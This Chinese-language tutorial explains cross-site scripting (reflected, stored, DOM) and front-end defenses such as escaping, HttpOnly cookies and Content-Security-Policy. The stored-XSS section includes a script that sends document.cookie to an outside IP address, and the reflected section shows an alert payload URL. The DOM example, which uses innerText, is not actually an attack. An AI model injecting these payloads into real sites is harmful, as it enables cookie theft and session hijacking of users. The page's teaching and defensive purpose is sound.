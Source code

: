 ```yaml
---
meta:
  - name: description
    content: 前端跨站脚本攻击
  - name: keywords
    content: 前端跨站脚本攻击,XSS,前端,攻击,
---
```

# 跨站脚本攻击 (XSS)

## 1. 介绍

> "XSS是跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。"

XSS攻击的核心方式是脚本。这些脚本通常是JavaScript脚本，从这个层面来说JavaScript能做的事情，XSS攻击一般都能做到。比如：

- 通过 `document.cookie` 盗取 cookie 中的信息
- 使用 js 或 css 破坏页面正常的结构与样式
- 流量劫持（通过访问某段具有 `window.location.href` 定位到其他页面）
- DoS 攻击：利用合理的客户端请求来占用过多的服务器资源，从而使合法用户无法得到服务器响应。并且通过携带过程的 cookie 信息可以使服务端返回400开头的状态码，从而拒绝合理的请求服务。
- 利用 iframe、frame、XMLHttpRequest 或上述 Flash 等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作，并且攻击者还可以利用 iframe，frame 进一步的进行 CSRF 攻击。
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力

## 2. 分类

### 2.1 反射型xss

`反射型xss`又被称为`非持久型xss`。当用户访问一个带有xss攻击代码的url请求的时候，向服务器发送请求，服务器接受请求后处理，并把客户端发送的xss攻击代码返回给客户端，客户端解析这段代码的时候，就有可能遭受xss攻击

用户浏览某个网站A，攻击者在这个网站中嵌入了恶意的脚本用于盗取用户的cookie等信息 攻击者诱导用户触发xss攻击（比如诱导用户点击非法链接），当用户触发了xss攻击的时候就会将自己的用户信息发送给攻击者 攻击者在获取用户的cookie后，就有可能盗用用户的身份信息进行非法操作

`http://xxx/search?keyword="><script>alert('XSS');</script>`

#### 反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等

数据流向： 浏览器 -> 后端 -> 浏览器

### 2.2 存储型xss

`存储型xss`又被称为`持久化的xss`。也是最危险的xss攻击方式。一旦攻击成功，就有可能造成大规模的xss攻击，也就是我们通常所说的xss蠕虫。

存储型xss攻击的一般原理是，客户端将带有xss攻击的数据发送给服务器，服务器接收并存储在数据库。当用户下次再访问这个页面的时候，服务器会读取数据库并将之前的xss代码取出发送给浏览器。浏览器解析这段数据的时候，就会遭受xss攻击。

所以，反射型xss攻击一般需要用户手动触发，而存储型xss攻击却是能够自动触发的。一般来说，反射型xss攻击的危害要比存储型xss攻击的危害要小的多。

```html
 <!-- 比如通过评论输入框将下面代码提交，之后会执行下面代码 -->
<script type="text/javascript">
document.write("<img src='http://192.168.59.129:10086?c=" + escape(document.cookie) + "'>")
</script>
```

#### 存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里

数据流向： 浏览器 -> 后端 -> 数据库 -> 后端 -> 浏览器

### 2.3 DOM型xss

我们可以通过JavaScript来操作dom树，所以，xss攻击也是能够做到这一点的。dom型xss攻击最大的危害就是改变我们网页的布局。这种类型的xss是不需要和服务器进行交互的，只发生在客户端处理阶段。比如一段xss攻击的代码是：

```js
const div = document.createElement('div');
div.innerText = 'xss攻击的代码';
document.body.appendChild(div);
```

#### 反射型xss和dom-xss都需要在url加入js代码才能够触发

数据流向： URL -> 浏览器

### 2.4 对比总结

| 类型 | 反射型 | 存储型 | DOM型 |
| --- | --- | ---| ---|
| 触发过程 | 正常用户访问携带XSS脚本的URL | 1.黑客构造XSS脚本<br />2.正常用户访问携带XSS脚本的页面 | 正常用户访问携带XSS脚本的URL |
| 数据存储 | URL| 数据库 | URL |
| 谁来输出 | 后端WEB应用程序 | 后端WEB应用程序 | 前端JS |
| 输出位置 | HTTP响应中 | HTTP响应中 | 动态构建DOM节点 |

## 3. 防范措施

应对XSS攻击的主要手段还是编码与过滤两种，`编码`用于将特殊的符号 "<、>、&、'、""进行html转义，而`过滤`则是阻止特定的标记、属性、事件

### 3.1 转义HTML

对用户输入的数据进行HTML转义是防范XSS攻击的基础措施：

- 使用`encodeURIComponent`对URL中的参数进行编码（反射型XSS）
- 服务器接收到数据，在存储到数据库之前，进行转义/过滤
- 前端接收到服务器传递过来的数据，在展示到页面前，先进行转义/过滤

### 3.2 HTTP-only Cookie

设置Cookie的`HttpOnly`属性可以禁止JavaScript读取某些敏感Cookie，即使攻击者完成XSS注入也无法窃取此Cookie：

- 防止脚本冒充用户提交危险操作
- 如果某一个Cookie选项被设置成`HttpOnly=true`的话，此Cookie只能通过服务器端修改，JavaScript无法读写这个Cookie

### 3.3 Content-Security-Policy

在服务端使用HTTP的`Content-Security-Policy`头部来指定策略，或者在前端设置meta标签。例如下面的配置只允许加载同域下的资源：

```
Content-Security-Policy: default-src 'self';
```

### 3.4 使用安全的API

避免使用不安全的DOM操作API：

- 在使用`.innerHTML`、`.outerHTML`、`document.write()`时要特别小心，不要把不可信的数据作为HTML插到页面上
- 应尽量使用`.textContent`、`.setAttribute()`等更安全的API
- 如果使用Vue/React技术栈，并且不使用`v-html`/`dangerouslySetInnerHTML`功能，就在前端render阶段避免`innerHTML`、`outerHTML`的XSS隐患

### 3.5 验证码

使用验证码可以防止脚本冒充用户提交危险操作，增加攻击成本。

## 4. 参考资料

[什么是XSS攻击，XSS攻击可以分为哪几类？如何防范XSS攻击？](https://github.com/YvetteLau/Step-By-Step/issues/18)

[web安全之xss攻击](https://zhaosaisai.com/blog/2018/web%E5%AE%89%E5%85%A8%E4%B9%8Bxss%E6%94%BB%E5%87%BB.html)
